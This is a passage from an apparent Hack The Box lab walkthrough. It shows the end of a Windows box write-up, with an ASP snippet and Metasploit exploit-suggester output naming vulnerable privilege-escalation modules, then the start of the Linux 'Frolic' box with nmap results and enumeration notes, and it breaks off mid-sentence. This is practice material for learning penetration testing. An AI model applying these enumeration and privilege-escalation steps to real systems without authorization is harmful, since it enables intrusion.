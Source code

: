 ```c#
<br>
</BODY>

<% Response.write("<!-"&"-") %>

```
and then to get a shell you can use a simple PS1 shell and then use 
```
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 17 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed                                                              
```
Here using the exploit/windows/local/ms16_014_wmi_recv_notif we can use it to get a root shell.





# Linux : Frolic : 10.10.10.111 : Easy

Nmap Results :

```
Nmap scan report for 10.10.10.111
Host is up (0.069s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Now going to the NodeJS (Node-Red) we see there is a login page , and moving on to port 9999 we see a default nginx page but dirbusting it we get the following directories listed below but traversing to admin gives us another login page and checking the source code of that we see a js file , which lets us know what the password and username for this 
